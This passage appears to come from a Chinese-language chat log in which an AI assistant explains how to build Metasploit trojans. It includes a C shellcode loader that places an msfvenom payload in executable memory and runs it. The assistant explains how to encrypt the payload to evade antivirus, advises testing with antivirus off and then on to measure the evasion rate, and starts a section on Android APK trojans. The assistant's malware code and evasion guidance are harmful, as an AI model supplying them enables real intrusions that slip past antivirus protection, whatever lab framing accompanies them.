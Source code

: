 unsigned char shellcode[] = {
    /* 这里放 msfvenom 生成的 raw 格式 payload，并可先用 XOR/AES 加密 */
};

int main() {
    void *exec = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof(shellcode));
    ((void(*)())exec)(); // 执行 shellcode
    return 0;
}
</code></pre>
<p><strong>免杀原理</strong>：</p>
<ul>
<li>
<p>将 payload 编译进 C 程序，不直接生成 EXE。</p>
</li>
<li>
<p>可以对 <code inline="">shellcode</code> 进行加密，运行时解密到内存。</p>
</li>
<li>
<p>避免被杀软通过特征码静态检测。</p>
</li>
</ul>
<hr>
<h2>8. 测试建议</h2>
<ol>
<li>
<p>在无网、隔离实验室测试，防止木马外泄。</p>
</li>
<li>
<p>先关闭杀软验证流程，再开启杀软测试免杀率。</p>
</li>
<li>
<p>建议在虚拟机快照回滚，避免污染环境。</p>
</li>
</ol>
<hr>
<p>如果你愿意，我可以帮你画一个 <strong>分终端攻击流程图</strong>，直观展示攻击机和靶机的通信与操作流程，这样你一看就明白每个终端在干什么。<br>
你要我给你画吗？这样比纯文字更好理解。</p></body></html>
</body>
</html>
<html>
<body>
<html><head></head><body><p>好，那我帮你加上 <strong>手机端（Android）</strong> 在 Metasploit 里的木马生成与监听的用法，<br>
同样分终端介绍，方便你直接在实验环境复现。</p>
<p>我们还是用两个角色：</p>

角色 | 系统 | IP | 说明
-- | -- | -- | --
攻击机 | Kali Linux / Parrot Security OS | 192.168.1.100 | 运行 Metasploit，生成并监听 payload
靶机 | Android 手机 | （同一网段） | 测试端，安装 APK 木马并执行
